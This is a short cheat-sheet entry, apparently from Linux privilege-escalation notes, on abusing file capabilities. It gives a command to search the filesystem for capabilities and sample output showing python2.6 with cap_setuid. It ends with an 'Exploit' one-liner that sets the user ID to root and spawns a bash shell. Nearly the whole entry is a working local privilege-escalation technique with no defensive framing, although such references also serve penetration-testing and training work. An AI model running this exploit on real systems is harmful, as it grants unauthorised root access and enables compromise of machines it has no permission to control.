  ### Capabilities 
 
 ## Type Command
 
    getcap -r / 2>/dev/null
 
 ## Output
 
 /usr/bin/python2.6 = cap_setuid+ep
    
 ## Exploit
 
    /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
   
